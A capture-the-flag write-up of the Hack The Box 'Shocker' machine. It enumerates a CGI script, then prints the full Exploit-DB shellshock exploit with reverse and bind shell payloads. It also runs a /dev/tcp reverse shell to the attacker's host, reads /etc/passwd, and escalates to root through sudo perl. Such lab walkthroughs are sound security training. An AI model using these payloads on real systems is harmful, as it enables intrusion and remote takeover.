

---
search:
  exclude: true
---
# Shocker Writeup

## Introduction :

Shocker is an easy Linux Box released back in September 2017. It features the well known shellshock vulnerability.

## **Part 1 : Initial Enumeration**

As always we begin our Enumeration using **Nmap** to enumerate opened ports. We will be using the flags **-sC** for default scripts and **-sV** to enumerate versions.
    
    
      λ nihilist [ 10.10.14.48/23 ] [~] → nmap 10.10.10.56 -sC -sV
      Starting Nmap 7.80 ( https://nmap.org ) at 2019-11-16 10:12 CET
      Nmap scan report for 10.10.10.56
      Host is up (0.065s latency).
      Not shown: 998 closed ports
      PORT     STATE SERVICE VERSION
      80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
      |_http-server-header: Apache/2.4.18 (Ubuntu)
      |_http-title: Site doesnt have a title (text/html).
      2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
      | ssh-hostkey:
      |   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
      |   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
      |_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
      Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
    
      Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
      Nmap done: 1 IP address (1 host up) scanned in 9.43 seconds
    
    

## **Part 2 : Getting User Access**

Our nmap result tells us that port 80 seems to be serving an Apache httpd 2.4.18 service, let's see if we can dig in a little more information...
    
    
      λ nihilist [ 10.10.14.48/23 ] [~] → curl -vsk http://10.10.10.56/
    *   Trying 10.10.10.56:80...
    * TCP_NODELAY set
    * Connected to 10.10.10.56 (10.10.10.56) port 80 (#0)
    > GET / HTTP/1.1
    > Host: 10.10.10.56
    > User-Agent: curl/7.67.0
    > Accept: */ *
    >
    * Mark bundle as not supporting multiuse
    < HTTP/1.1 200 OK
    < Date: Sat, 16 Nov 2019 09:25:00 GMT
    < Server: Apache/2.4.18 (Ubuntu)
    < Last-Modified: Fri, 22 Sep 2017 20:01:19 GMT
    < ETag: "89-559ccac257884"
    < Accept-Ranges: bytes
    < Content-Length: 137
    < Vary: Accept-Encoding
    < Content-Type: text/html
    <
    <****!DOCTYPE html> <****html> <****body> <****h2>Dont Bug Me!** h2>
    <****img src="bug.jpg" alt="bug" style="width:450px;height:350px;"> <****/body> <****/html>
    * Connection #0 to host 10.10.10.56 left intact

Looking at the results , the URL http://10.10.10.56/ doesnt seem to yield that much results. Let's run the dirbusting command **dirb** to try to find out which directories are being hosted by the httpd service.
    
    
    λ nihilist [ 10.10.14.48/23 ] [~] → dirb http://10.10.10.56/
    
    -----------------
    DIRB v2.22
    By The Dark Raver
    -----------------
    
    START_TIME: Sat Nov 16 10:23:02 2019
    URL_BASE: http://10.10.10.56/
    WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt
    
    -----------------
    
    GENERATED WORDS: 4612
    
    ---- Scanning URL: http://10.10.10.56/ ----
    + http://10.10.10.56/cgi-bin/ (CODE:403|SIZE:294)
    + http://10.10.10.56/index.md (CODE:200|SIZE:137)
    + http://10.10.10.56/server-status (CODE:403|SIZE:299)
    
    -----------------
    END_TIME: Sat Nov 16 10:26:12 2019
    DOWNLOADED: 4612 - FOUND: 3
    

Dirbuster returned with 2 interesting results : /cgi-bin/  /server-status Although both of these seem to be returning the 403 Forbidden error. Let's see if we can find any good results within the /cgi-bin/ for example a .sh file, we will use dirbuster one more time using the common files txt wordlist.
    
    
    λ root [ 10.10.14.48/23 ] [share/wordlists/dirb] → curl -vsk https://raw.githubusercontent.com/digination/dirbuster-ng/master/wordlists/common.txt > common.txt
    λ nihilist [ 10.10.14.48/23 ] [~/_HTB/Shocker] → dirb http://10.10.10.56/cgi-bin/ -w /usr/share/dirb/common.txt -X .sh
    
    -----------------
    DIRB v2.22
    By The Dark Raver
    -----------------
    
    START_TIME: Sat Nov 16 10:52:59 2019
    URL_BASE: http://10.10.10.56/cgi-bin/
    WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt
    OPTION: Not Stoping on warning messages
    EXTENSIONS_LIST: (.sh) | (.sh) [NUM = 1]
    
    -----------------
    
    GENERATED WORDS: 4612
    
    ---- Scanning URL: http://10.10.10.56/cgi-bin/ ----
    + http://10.10.10.56/cgi-bin/user.sh (CODE:200|SIZE:118)
    
    -----------------
    END_TIME: Sat Nov 16 10:56:07 2019
    DOWNLOADED: 4612 - FOUND: 1
    

Dirbuster found the user.sh file within the /cgi-bin/ folder ! Let's download it using the **wget** command, and print out it's content.
    
    
    λ nihilist [ 10.10.14.48/23 ] [~/_HTB/Shocker] → wget http://10.10.10.56/cgi-bin/user.sh
    --2019-11-16 10:56:29--  http://10.10.10.56/cgi-bin/user.sh
    Connecting to 10.10.10.56:80... connected.
    HTTP request sent, awaiting response... 200 OK
    Length: unspecified [text/x-sh]
    Saving to: ‘user.sh’
    
    user.sh                           [ <=>                                             ]     118  --.-KB/s    in 0.001s
    
    2019-11-16 10:56:29 (195 KB/s) - ‘user.sh’ saved [118]
    
    
    λ nihilist [ 10.10.14.48/23 ] [~/_HTB/Shocker] → cat user.sh
    Content-Type: text/plain
    
    Just an uptime test script
    
     04:58:44 up  2:11,  0 users,  load average: 0.01, 0.00, 0.00
    
    

This seems to ring a bell, this may in fact be the shellshock vulnerability !  We run a quick **searchsploit** to find which exploit number corresponds to the shellshock CVE.
    
    
      λ nihilist [ 10.10.14.48/23 ] [~/_HTB/Shocker] → searchsploit shellshock
    ------------------------------------------------------------------------------ ----------------------------------------
     Exploit Title                                                                |  Path
                                                                                  | (/usr/share/exploitdb/)
    ------------------------------------------------------------------------------ ----------------------------------------
    Advantech Switch - 'Shellshock' Bash Environment Variable Command Injection ( | exploits/cgi/remote/38849.rb
    **Apache mod_cgi - 'Shellshock' Remote Command Injection                        | exploits/linux/remote/34900.py**
    Bash - 'Shellshock' Environment Variables Command Injection                   | exploits/linux/remote/34766.php
    Bash CGI - 'Shellshock' Remote Command Injection (Metasploit)                 | exploits/cgi/webapps/34895.rb
    Cisco UCS Manager 2.1(1b) - Remote Command Injection (Shellshock)             | exploits/hardware/remote/39568.py
    GNU Bash - 'Shellshock' Environment Variable Command Injection                | exploits/linux/remote/34765.txt
    IPFire - 'Shellshock' Bash Environment Variable Command Injection (Metasploit | exploits/cgi/remote/39918.rb
    NUUO NVRmini 2 3.0.8 - Remote Command Injection (Shellshock)                  | exploits/cgi/webapps/40213.txt
    OpenVPN 2.2.29 - 'Shellshock' Remote Command Injection                        | exploits/linux/remote/34879.txt
    PHP < 5.6.2 - 'Shellshock' Safe Mode / Disable Functions Bypass / Command Inj | exploits/php/webapps/35146.txt
    Postfix SMTP 4.2.x < 4.2.48 - 'Shellshock' Remote Command Injection           | exploits/linux/remote/34896.py
    RedStar 3.0 Server - 'Shellshock' 'BEAM' / 'RSSMON' Command Injection         | exploits/linux/local/40938.py
    Sun Secure Global Desktop and Oracle Global Desktop 4.61.915 - Command Inject | exploits/cgi/webapps/39887.txt
    TrendMicro InterScan Web Security Virtual Appliance - 'Shellshock' Remote Com | exploits/hardware/remote/40619.py
    dhclient 4.1 - Bash Environment Variable Command Injection (Shellshock)       | exploits/linux/remote/36933.py
    ------------------------------------------------------------------------------ ----------------------------------------
    Shellcodes: No Result
    

Seems like the exploit n° 34900 corresponds to the box that we have, Apache, mod_cgi, Shellshock let's run a quick locate and cp command to copy the script onto our current directory for further inspection.
    
    
    λ nihilist [ 10.10.14.48/23 ] [~/_HTB/Shocker] → locate 34900.py
    /usr/share/exploitdb/exploits/linux/remote/34900.py
    
    λ nihilist [ 10.10.14.48/23 ] [~/_HTB/Shocker] → cp  /usr/share/exploitdb/exploits/linux/remote/34900.py .
    
    λ nihilist [ 10.10.14.48/23 ] [~/_HTB/Shocker] → nano 34900.py
    

Here is the official python script that we could be using : 
    
    
    #! /usr/bin/env python
    from socket import *
    from threading import Thread
    import thread, time, httplib, urllib, sys
    
    stop = False
    proxyhost = ""
    proxyport = 0
    
    def usage():
            print ("""
                    Usage : python2 exploit.py payload=reverse rhost= lhost= lport= pages=cgi-bin/user.sh
            """)
            sys.exit(0)
    
    def exploit(lhost,lport,rhost,rport,payload,pages):
            headers = {"Cookie": payload, "Referer": payload}
    
            for page in pages:
                    if stop:
                            return
                    print ("[-] Trying exploit on : "+page)
                    if proxyhost != "":
                            c = httplib.HTTPConnection(proxyhost,proxyport)
                            c.request("GET","http://"+rhost+page,headers=headers)
                            res = c.getresponse()
                    else:
                            c = httplib.HTTPConnection(rhost)
                            c.request("GET",page,headers=headers)
                            res = c.getresponse()
                    if res.status == 404:
                            print( "[*] 404 on : "+page)
                    time.sleep(1)
    args = {}
    
    
    for arg in sys.argv[1:]:
            ar = arg.split("=")
            args[ar[0]] = ar[1]
    try:
            args['payload']
    except:
            usage()
    
    if args['payload'] == 'reverse':
            try:
                    lhost = args['lhost']
                    lport = int(args['lport'])
                    rhost = args['rhost']
                    payload = "() { :;}; /bin/bash -c /bin/bash -i >& /dev/tcp/"+lhost+"/"+str(lport)+" 0>&1 &"
            except:
                    usage()
    
    elif args['payload'] == "bind":
            try:
                    rhost = args['rhost']
                    rport = args['rport']
                    payload = "() { :;}; /bin/bash -c 'nc -l -p "+rport+" -e /bin/bash &'"
            except:
                    usage()
    else:
            print( "[*] Unsupported payload")
            usage()
    try:
            pages = args['pages'].split(",")
    except:
            pass
    
    if args['payload'] == 'reverse':
            serversocket = socket(AF_INET, SOCK_STREAM)
            buff = 1024
            addr = (lhost,lport)
            serversocket.bind(addr)
            serversocket.listen(10)
            print ("[!] Started reverse shell handler")
            thread.start_new_thread(exploit,(lhost,lport,rhost,0,payload,pages,))
    if args['payload'] == 'bind':
            serversocket = socket(AF_INET, SOCK_STREAM)
            addr = (rhost,int(rport))
            thread.start_new_thread(exploit,("",0,rhost,rport,payload,pages,))
    
    buff = 1024
    
    while True:
            if args['payload'] == 'reverse':
                    clientsocket, clientaddr = serversocket.accept()
                    print ("[!] Successfully exploited")
                    print ("[!] Incoming connection from "+clientaddr[0])
                    stop = True
                    clientsocket.settimeout(3)
                    while True:
                            reply = raw_input(clientaddr[0]+"> ")
                            clientsocket.sendall(reply+"\n")
                            try:
                                    data = clientsocket.recv(buff)
                                    print (data)
                            except:
                                    pass
    
            if args['payload'] == 'bind':
                    try:
                            serversocket = socket(AF_INET, SOCK_STREAM)
                            time.sleep(1)
                            serversocket.connect(addr)
                            print ("[!] Successfully exploited")
                            print ("[!] Connected to "+rhost)
                            stop = True
                            serversocket.settimeout(3)
                            while True:
                                    reply = raw_input(rhost+"> ")
                                    serversocket.sendall(reply+"\n")
                                    data = serversocket.recv(buff)
                                    print( data)
                    except:
                            pass
    

If we wanted to execute the aforementionned python script, we would follow the syntax given in the script itself :  **python2 34900.py payload=reverse rhost= lhost= lport= pages=cgi-bin/user.sh** Although we will go for another, more elaborate alternative which has been developped by [ncc group](https://github.com/nccgroup/shocker). 
    
    
      λ root [ 10.10.14.48/23 ] [nihilist/_HTB/Shocker] → wget https://raw.githubusercontent.com/nccgroup/shocker/master/shocker.py
      --2019-11-16 11:28:02--  https://raw.githubusercontent.com/nccgroup/shocker/master/shocker.py
      Loaded CA certificate '/etc/ssl/certs/ca-certificates.crt'
      Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 151.101.120.133
      Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|151.101.120.133|:443... connected.
      HTTP request sent, awaiting response... 200 OK
      Length: 17942 (18K) [text/plain]
      Saving to: ‘shocker.py’
    
      shocker.py                                     100%[===================================================================================================>]  17.52K  --.-KB/s    in 0.02s
    
      2019-11-16 11:28:02 (828 KB/s) - ‘shocker.py’ saved [17942/17942]
    
      λ root [ 10.10.14.48/23 ] [nihilist/_HTB/Shocker] → python2 shocker.py
    
         .-. .            .
        (   )|            |
         `-. |--. .-.  .-.|.-. .-. .--.
        (   )|  |(   )(   |-.'(.-' |
         `-' '  `-`-'  `-''  `-`--'  v1.1
    
       Tom Watson, tom.watson@nccgroup.trust
       https://www.github.com/nccgroup/shocker
    
       Released under the GNU Affero General Public License
       (https://www.gnu.org/licenses/agpl-3.0.html)
    
    
      usage: shocker.py [-h] (--Host HOST | --file FILE)
                        [--cgilist CGILIST | --cgi CGI] [--port PORT]
                        [--command COMMAND] [--proxy PROXY] [--ssl]
                        [--threads THREADS] [--verbose] [--debug]
      shocker.py: error: one of the arguments --Host/-H --file/-f is required
    

As you can see it seems to have a simpler syntax for us to use. Let's test our second python script onto our target and see if we get any results. We will use the -H , --command, -c and --verbose flags.
    
    
      λ root [ 10.10.14.48/23 ] [nihilist/_HTB/Shocker] → python2 shocker.py -H 10.10.10.56 --command "/bin/cat /etc/passwd" -c /cgi-bin/user.sh --verbose
    
       .-. .            .
      (   )|            |
       `-. |--. .-.  .-.|.-. .-. .--.
      (   )|  |(   )(   |-.'(.-' |
       `-' '  `-`-'  `-''  `-`--'  v1.1
    
     Tom Watson, tom.watson@nccgroup.trust
     https://www.github.com/nccgroup/shocker
    
     Released under the GNU Affero General Public License
     (https://www.gnu.org/licenses/agpl-3.0.html)
    
    
    [+] Single target '/cgi-bin/user.sh' being used
    [+] Checking connectivity with target...
    [I] Checking to see if 10.10.10.56 resolves...
    [I] Resolved ok
    [I] Checking to see if 10.10.10.56 is reachable on port 80...
    [I] 10.10.10.56 seems reachable...
    [+] Target was reachable
    [+] Looking for vulnerabilities on 10.10.10.56:80
    [I] Starting thread 1
    [+] Finished host scan
    [+] 1 potential target found, attempting exploits
    [+] Trying exploit for http://10.10.10.56:80/cgi-bin/user.sh
    [I] Flag set to: V74T37Z64S0NDC600N7U
    [I] Header is: Content-type
    [I] Attack string is: () { :;}; echo;  echo V74T37Z64S0NDC600N7U; /bin/cat /etc/passwd
    [!] http://10.10.10.56:80/cgi-bin/user.sh looks vulnerable
    [!] Response returned was:
    
      root:x:0:0:root:/root:/bin/bash
      daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
      bin:x:2:2:bin:/bin:/usr/sbin/nologin
      sys:x:3:3:sys:/dev:/usr/sbin/nologin
      sync:x:4:65534:sync:/bin:/bin/sync
      games:x:5:60:games:/usr/games:/usr/sbin/nologin
      man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
      lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
      mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
      news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
      uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
      proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
      www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
      backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
      list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
      irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
      gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
      nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
      systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
      systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
      systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
      systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
      syslog:x:104:108::/home/syslog:/bin/false
      _apt:x:105:65534::/nonexistent:/bin/false
      lxd:x:106:65534::/var/lib/lxd/:/bin/false
      messagebus:x:107:111::/var/run/dbus:/bin/false
      uuidd:x:108:112::/run/uuidd:/bin/false
      dnsmasq:x:109:65534:dnsmasq,,,:/var/lib/misc:/bin/false
      sshd:x:110:65534::/var/run/sshd:/usr/sbin/nologin
      shelly:x:1000:1000:shelly,,,:/home/shelly:/bin/bash
    
    [+] The following URLs appear to be exploitable:
      [1] http://10.10.10.56:80/cgi-bin/user.sh
    [+] Would you like to exploit further?
    [>] Enter an URL number or 0 to exit: 0
    

Our exploit worked ! we have been able to print out the contents of the /etc/passwd file. Now let's try to see if we can get a reverse shell connection on our 1337th port. We start by using the **netcat** command ready with the -lvnp flags to catch the incoming connection, within a second terminal. 

_Terminal 2:_
    
    
    λ nihilist [ 10.10.14.48/23 ] [~/_HTB/Shocker] → nc -lvnp 1337
    

Now all we have to do is use the previous shocker python script to tell the machine to send us a reverse shell connection on the correct port.

_Terminal 1:_
    
    
      λ root [ 10.10.14.48/23 ] [nihilist/_HTB/Shocker] → python2 shocker.py -H 10.10.10.56 --command "/bin/bash -i > /dev/tcp/10.10.14.48/1337 0<&1 2>&1" -c /cgi-bin/user.sh --verbose
    
         .-. .            .
        (   )|            |
         `-. |--. .-.  .-.|.-. .-. .--.
        (   )|  |(   )(   |-.'(.-' |
         `-' '  `-`-'  `-''  `-`--'  v1.1
    
       Tom Watson, tom.watson@nccgroup.trust
       https://www.github.com/nccgroup/shocker
    
       Released under the GNU Affero General Public License
       (https://www.gnu.org/licenses/agpl-3.0.html)
    
    
      [+] Single target '/cgi-bin/user.sh' being used
      [+] Checking connectivity with target...
      [I] Checking to see if 10.10.10.56 resolves...
      [I] Resolved ok
      [I] Checking to see if 10.10.10.56 is reachable on port 80...
      [I] 10.10.10.56 seems reachable...
      [+] Target was reachable
      [+] Looking for vulnerabilities on 10.10.10.56:80
      [I] Starting thread 1
      [+] Finished host scan
      [+] 1 potential target found, attempting exploits
      [+] Trying exploit for http://10.10.10.56:80/cgi-bin/user.sh
      [I] Flag set to: ZS6W4FQLEFG9B7NYE0K9
      [I] Header is: Content-type
      [I] Attack string is: () { :;}; echo;  echo ZS6W4FQLEFG9B7NYE0K9; /bin/bash -i > /dev/tcp/10.10.14.48/1337 0<&1 2>&1
      [I] http://10.10.10.56:80/cgi-bin/user.sh - timed out
      [-] Not vulnerable
      [-] All exploit attempts failed
    

The script tells us that it seems to have failed, Although it seems like our second terminal recieved the connection through the 1337 port. 

_Terminal 2:_
    
    
      λ nihilist [ 10.10.14.48/23 ] [~/_HTB/Shocker] → nc -lvnp 1337
    Connection from 10.10.10.56:38116
    bash: no job control in this shell
    
    shelly@Shocker:/usr/lib/cgi-bin$ whoami
    shelly
    
    shelly@Shocker:/usr/lib/cgi-bin$ uname -a
    uname -a
    Linux Shocker 4.4.0-96-generic #119-Ubuntu SMP Tue Sep 12 14:59:54 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
    
    shelly@Shocker:/usr/lib/cgi-bin$ cat /home/shelly/user.txt
    cat /home/shelly/user.txt
    2eXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
    

That's how you get the user flag ! Now let's try to escalate privileges onto the box.

## **Part 3 : Getting Root Access**

First of all let's type the **sudo -l** command to see which commands could potentially be run as the root user.
    
    
    shelly@Shocker:/usr/lib/cgi-bin$ sudo -l
    sudo -l
    
    Matching Defaults entries for shelly on Shocker:
        env_reset, mail_badpass,
        secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
    
    User shelly may run the following commands on Shocker:
        (root) NOPASSWD: /usr/bin/perl
    

Seems like the perl command can be run as root ! let's test it.
    
    
    shelly@Shocker:/usr/lib/cgi-bin$ sudo perl -e 'exec "/bin/sh";'
    sudo perl -e 'exec "/bin/sh";'
    
    whoami
    root
    

And that's it ! we now have an elevated privilege shell as the root user. All that's left to do now is to print the root flag. 
    
    
    cat /root/root.txt
    52XXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
    

## **Conclusion**

Here we can see the progress graph :

